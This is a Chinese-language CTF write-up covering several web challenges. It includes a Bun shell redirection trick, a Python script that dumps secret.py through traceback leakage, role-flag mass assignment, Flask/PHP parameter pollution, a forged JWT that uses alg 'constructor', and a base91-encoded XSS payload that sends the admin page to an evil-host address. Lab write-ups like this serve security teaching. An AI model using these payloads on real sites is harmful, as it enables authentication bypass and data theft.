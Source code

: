 ## 封神台wp

### EzEcho

bun 内部shell的解析bug

先创建文件并将内容写入sh脚本里面，然后再执行sh

好像是`1` 被当作触发重定向的标识，没有写入，作为文本内容。

```
/readflag1<huaji

`sh<huaji`
```

flag{rce_eas1y_th3n_i_think}

参考https://blog.csdn.net/2401_83799022/article/details/141859729



### EzPyeditor

因为 `traceback.format_exc()` 会把 **异常栈的文件路径和代码上下文** 返回给前端，如果我们把 `filename` 指向 `secret.py`，并且让 `source` 是空的（触发解析报错），那么 traceback 会尝试 **从这个文件加载源码行内容**，从而把 `secret.py` 里的 flag 泄露出来。



可以用 `source` 构造一个在指定行触发错误的假代码，让 traceback 去那一行读取内容：

```
{
    "source": "\n\n\n\nx y",  
    "filename": "secret.py"
}
```



所以exp如下：

```python
import requests
import re

url = "http://rc0uy94d.lab.aqlab.cn/check"   # 改成你的靶场地址
target_file = "secret.py"

def read_line(line_num):
    # 构造 source，让错误出现在指定行
    payload = {
        "source": "\n" * (line_num - 1) + "x y",  # x y 触发语法错误
        "filename": target_file
    }
    r = requests.post(url, json=payload)
    data = r.json()
    if not data["status"] and data["error"]:
        # 从 traceback 中提取对应行
        match = re.search(rf'File "{re.escape(target_file)}", line {line_num}\n\s*(.*)\n', data["error"])
        if match:
            return match.group(1)
    return None

def dump_file(max_lines=100):
    print(f"[*] Dumping {target_file} ...")
    for i in range(1, max_lines+1):
        line = read_line(i)
        if line is None:
            break
        print(f"{i:03d}: {line}")

if __name__ == "__main__":
    dump_file()
#flag{y0ur_1re_pyc0de_master!}
```



### EzGrades

创建用户时，加上is_teacher=true即可

![image-20250810213755826](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849235.png)

然后再访问/grades_flag就有flag了，其中cookie是`auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoiaHVhamkiLCJzdHVfZW1haWwiOiJodWFqaUBodWFqaS5jb20iLCJwYXNzd29yZCI6IjEiLCJpc190ZWFjaGVyIjoidHJ1ZSJ9.4bhDOIr-X_u68snoXl5pwMG-v0HGMXyi7nzAXp62GrY`

flag{g00d_go0d_study_d1yd1yup}

### EzGetFlag

使用 两个字段：

第一个 给 Flask 看，第二个给 PHP 看

因为php会被变量绕过，flask接收了第一个，php相当于接收的第二个

![image-20250810214427451](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849236.png)



# EzJwt Wp

```js
const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const verify = (token, secret) => {
	const { header, payload, signature: expected_signature } = parseToken(token);
	const calculated_signature = createSignature(header, payload, secret);
	
	const calculated_buf = Buffer.from(calculated_signature, 'base64');
  console.log(calculated_buf)
  console.log(calculated_buf.toString('base64'))
	const expected_buf = Buffer.from(expected_signature, 'base64');
  console.log(expected_buf)

	if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
		throw Error('Invalid signature');
	}

	return payload;
}
```

代码审计，发现后端在校验 JWT 时没有制定加密算法，于是想到可以手动指定 alg 标签来使得后端不使用那两种加密算法来进行验证，但是问题是 `algorithms` 只有两个元素，我们可以通过 JS 的特性找到一个 `Object` 或者 `{}` 对象本来就具有的函数，经过测试，我选择使用 `constructor()`，直接调用这个函数：

```js
  > let a = {}
... a['constructor']("123","456")
String {'123'}
```

经过测试，发现思路可行后，就直接修改本地代码获得签名之后的 base64。

![image-20250810231109801](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849237.png)

修改后：

```text
ewogICJhbGciOiAiY29uc3RydWN0b3IiLAogICJ0eXAiOiAiSldUIgp9.ewogICJpc0FkbWluIjogdHJ1ZQp9.eyJhbGciOiJjb25zdHJ1Y3RvciIsInR5cCI6IkpXVCJ9eyJpc0FkbWluIjp0cnVlfQ
```

使用这个 cookie 去访问网站，拿到 cookie：

![image-20250810230839382](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849238.png)

flag 为：

```text
flag{jwt_i_w0nt_see_you!:(}
```



### EzBase Wp

代码审计，发现题目会将用户上传的数据进行 base91 编码，然后显示出来，于是逆向思维，让编码后的文本为 xss payload，再 decode，就能拿到应该上传的数据。

#### exp

```py
import based91

res = based91.decode("<iframe/src=\"javascript%3Afetch%28%27%2F%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28s%3D%3E%7Bnew%20Image%28%29%2Esrc%3D%60http%3A%2F%2Fevil%2Dhost%3A8888%2Fget%5Fcookie%3Fcookie%3D%24%7BencodeURIComponent%28s%2Esubstring%280%2C2000%29%29%7D%60%7D%29%2Ecatch%28console%2Eerror%29%3B\">link</iframe>abc");

print(res.hex())

print(based91.encode(res))

```

iframe 中的 js 使用的 url 编码，同时 iframe 和 src 之间使用 `/` 隔开以避免使用空格，原始 js 代码为：

```js
javascript:fetch('/').then(r=>r.text()).then(s=>{new Image().src=`http://evil-host:8888/get_cookie?cookie=${encodeURIComponent(s.substring(0,2000))}`}).catch(console.error);
```

 执行脚本：

![image-20250810232114525](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849239.png)

在页面上传：

![image-20250810232225908](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849240.png)

然后让 bot 访问这个页面：

![image-20250810232258302](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849242.png)

服务器拿到管理员首页页面源代码：

![image-20250810232357014](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849243.png)

访问 flag 所在 encoding，拿到 flag：

![image-20250810232917139](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849244.png)




